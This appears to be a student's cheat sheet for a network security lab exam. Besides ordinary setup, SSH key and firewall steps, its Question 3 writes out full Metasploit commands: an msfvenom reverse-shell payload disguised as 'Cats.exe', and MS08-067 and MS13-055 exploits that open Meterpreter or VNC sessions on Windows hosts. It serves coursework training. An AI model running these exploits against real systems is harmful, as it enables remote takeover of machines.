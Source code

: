 ## Module 4

* For Kali, always login as root.
### Question 1

For all Windows, go to Network and Sharing Centre, then Properties, then IPV4, then Properties, and change accordingly.

For all Linux, either go to the settings for ```ens33``` , or use command line:

```bash
ip a a 192.168.1.?/24 dev eth0
```

If you are using Metasploitable with msfadmin, use ```sudo``` before the command

### Question 2 (Kali)

Use ```nmap ``` to scan your Target IP Address:

```bash
nmap -script vuln (Target IP Address)
```

For the output, try to find what is "Vulnerable", or just use:

* WIndows 10: 0
* WIndows 7: 1
* Windows XP: 3

(Not guaranteed)

### Question 3 (Kali + One Target)

No matter which exploit is assigned, open MSF with the icon on the dock:

#### Windows 10

In bash, generate the exe hook:

```bash
msfvenom -p windows/vncinject/reverse_tcp --platform windows -f exe
LHOST="(Kali IP)" LPORT=444 -o /root/Desktop/Cats.exe
```

Note ```Cats.exe``` can be named as something else, change accordingly.

Drag it to Windows 10 via Mac Desktop if required.

Then in MSF window, enter:

```bash
use multi/handler
set PAYLOAD windows/vncinject/reverse_tcp
set LPORT 444
set LHOST (Kali IP)
set viewOnly false
exploit
```

Notice: Check Paper if the exploit should be left there, if so, DO NOT enter on ```exploit```

#### Windows XP

##### VNC Injection

In MSF window, enter:

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/vncinject/reverse_tcp
set rhost (IP of XP)
set lhost (Kali IP)
set viewOnly false
exploit
```

Notice: Check Paper if the exploit should be left there, if so, DO NOT enter on ```exploit```

##### Meterpreter

In MSF window, enter:

```bash
use exploit/windows/smb/ms08_067_netapi
set payload windows/meterpreter/reverse_tcp
set rhost (IP of XP)
set lhost (Kali IP)
exploit
```

Notice: Check Paper if the exploit should be left there, if so, DO NOT enter on ```exploit```

#### Windows 7

Find the URIpath in the paper, like "catvideos".

In MSF window, enter:

```bash
use exploit/windows/browser/ms13_055_canchor
set payload windows/meterpreter/reverse_tcp
set lhost (Kali IP)
set SRVHost (Kali IP)
set SRVPort 80
set URIpath (Path in Paper)
set target 2
exploit
```

Notice: Check Paper if the exploit should be left there, if so, DO NOT enter on ```exploit```

Then put the link in IE8 of WIndows 7:

```bash
https://(IP of Kali)/(URIpath)
```

Notice: Check Paper if the exploit should be left there, if so, DO NOT enter after input of the link.

### Question 4 (CentOS)

For this question, look some given information in your paper first:

* Keypair Name: ```~/.ssh/id_(something)```
* Passphrase
* Alias for a specific machine: like ```client1```
* Preferred Login User: like ```student```

For keypair generation, go to CentOS terminal:

```bash
ssh-keygen -t ed25519 -f ~/.ssh/id_(something)
```

You will be asked to give Passphrase, give it and confirm it:

```bash
Enter a passphrase:
Enter again to confirm:
```

Then, for adding alias for a specific host: 

```bash
nano ~/.ssh/config
```

which will open config file in nano, in nano, write:

```bash
Host (Alias)
	User (User Name)
	Hostname (IP of Target)
	IdentityFile ~/.ssh/id_(something)
	AddKeysToAgent yes
```

Then:

* Use Ctrl + x to exit
* Use Y to confirm save
* Use Enter to confirm quit

Lastly, change the config file's mode

```bash
chmod 0600 ~/.ssh/config
```

### Question 5

#### CentOS

Find in paper:

* What Protocol
* What Port Number
* What Operation need to be done: Block or Allow

In CentOS terminal, enter:

```bash
sudo iptables -A INPUT -p (Protocol) --dport (Port Number) -j (Action)
```

* Action is ACCEPT or DROP

#### Windows Server 2016

1. In Server Manger, go to "Tools", open "Windows Firewall and Security"
2. Click "Inbound Rules" in the hierarchy.
3. Click New Rules
4. In the new window, select "Custom Rules"
5. Leave "All Programs"
6. Select the Protocol you want to apply rules on, then in Local Ports, enter the port you want to apply to.
7. In Remote IP section, select to specify and add the IP of target you want to apply rules to.
8. Select the behaviour, like Block
9. Accept all domains
10. Give name and description in the paper, apply the rule.
